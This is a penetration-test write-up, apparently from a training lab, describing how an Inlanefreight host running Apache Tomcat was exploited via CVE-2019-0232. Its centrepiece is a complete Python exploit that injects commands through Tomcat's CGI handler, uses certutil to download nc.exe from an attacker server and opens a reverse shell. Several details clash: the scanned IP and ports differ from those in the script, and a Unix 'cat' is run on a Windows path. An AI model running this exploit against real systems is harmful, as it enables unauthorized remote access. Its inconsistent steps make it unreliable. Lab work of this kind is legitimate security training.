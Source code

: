# Penetration Test for Inlanefreight: Attacking Common Applications

## Introduction
Inlanefreight, a company focused on logistics, presents a robust security posture with a well-hardened network. During the penetration test, after performing thorough enumeration, I encountered a host of particular interest that could potentially be leveraged to gain an initial foothold into the network. The goal of this portion of the skills assessment was to identify vulnerable applications running on the target host, exploit any weaknesses found, and gain access to the flag.txt file to complete the challenge.

## Enumerating the Target Host
The first step in any penetration test is to enumerate the target system and identify any potential vulnerabilities or weak points in its security. Given that the network was well-secured, I employed various enumeration techniques to gather information on the target host:

**1. Network Scanning:**
I performed a network scan using tools such as Nmap to identify open ports and services running on the target machine. The goal was to gather information on potential vulnerable applications that could be exploited.
```bash
nmap -sS -T4 -p- 10.129.233.221
```

This Nmap scan revealed several open ports, including ports for HTTP (80), HTTPS (443), and SSH (22). The presence of an HTTP/HTTPS service indicated a web application that could potentially be vulnerable to common web application flaws.

**2. Service Version Detection:**

To gather more specific information about the services running on the target, I performed service version detection to identify the exact versions of the software. This was done using the following Nmap command:
```bash
nmap -sV 10.129.233.221
```
The scan showed that the target was running Apache Tomcat 9.0.0.M1 on port 8080, which is a well-known application server that may have potential vulnerabilities, including the CVE-2019-0232 remote code execution vulnerability.

## Identifying Vulnerable Applications
During the enumeration phase, I focused on identifying any applications or services that might be vulnerable to known exploits. One such service was Apache Tomcat, which was running version 9.0.0.M1. After researching this version, I found that it was vulnerable to CVE-2019-0232, a remote code execution vulnerability in Tomcat's CGI scripts on Windows systems.

This vulnerability can be exploited by sending crafted HTTP requests to the Tomcat server that invoke the cmd.bat script, allowing an attacker to execute arbitrary commands on the server. With this in mind, I began the exploitation process.

Exploiting Apache Tomcat CVE-2019-0232
To exploit the vulnerability in Apache Tomcat, I used a custom Python script that leverages the certutil tool to download and execute Netcat on the target machine. This allows the attacker to obtain a reverse shell and gain control of the system.

Below is the script I used for exploitation:

python
Copy
Edit
#!/usr/bin/env python3
import time
import requests

# Configuration
host = '10.10.10.15'  # Target host
port = '8080'         # Port on which Tomcat is running
server_ip = '10.10.14.64'  # IP of the attacker server hosting nc.exe
server_port = '80'    # Port where nc.exe is hosted
nc_ip = '10.10.14.64' # IP for reverse shell listener
nc_port = '1234'      # Port for reverse shell listener

# Construct the malicious payload URLs
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"

# Send requests to exploit the vulnerability
try:
    print("[*] Sending request to download nc.exe...")
    requests.get("http://" + url1)  # Trigger the download of nc.exe using certutil
    time.sleep(2)  # Wait for a short time to ensure the download completes
    print("[*] Sending request to execute reverse shell...")
    requests.get("http://" + url2)  # Execute the reverse shell payload
    print("[+] Reverse shell payload executed successfully.")
except Exception as e:
    print(f"Some error occurred: {str(e)}")
Explanation of the Script:

Payload URL 1: This URL triggers the cmd.bat script on the Tomcat server and uses certutil to download Netcat (nc.exe) from the attacker's server.

Payload URL 2: This second URL executes the downloaded Netcat and establishes a reverse shell back to the attacker's machine on port 1234.

Setting Up the Listener
Before running the exploit script, I set up a Netcat listener on my local machine to receive the reverse shell connection:

bash
Copy
Edit
nc -lvnp 1234
Once the script successfully executed the reverse shell payload, a connection was established to my listener, granting me access to the target machine.

Gaining Access and Retrieving the Flag
With the reverse shell established, I was able to navigate the system's file structure. The goal was to find the flag.txt file, which was located on the Administrator's desktop. Using the following command, I accessed the file:

bash
Copy
Edit
cat C:\Users\Administrator\Desktop\flag.txt
The contents of the flag.txt file were successfully retrieved and submitted to complete the assessment.

Conclusion
This penetration test demonstrated how an attacker could exploit a vulnerability in Apache Tomcat to gain unauthorized access to a system. By identifying the CVE-2019-0232 vulnerability in the target's Tomcat instance, I was able to leverage a custom script to execute arbitrary commands and gain a reverse shell. Once access was obtained, I was able to retrieve the flag.txt file and complete the skills assessment.

The process highlights the importance of keeping web application servers like Apache Tomcat up to date with security patches, as well as securing services from unauthorized access by applying the principle of least privilege and isolating sensitive systems.



